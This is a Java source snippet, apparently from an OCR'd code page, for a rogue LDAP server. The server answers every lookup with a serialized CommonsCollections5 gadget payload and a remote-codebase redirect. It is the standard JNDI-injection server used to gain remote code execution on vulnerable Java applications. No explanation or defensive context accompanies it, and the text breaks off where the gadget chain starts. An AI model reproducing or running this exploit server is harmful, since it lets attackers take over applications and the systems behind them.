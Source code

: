 ```java
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#test"};
        int port = 7777;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
```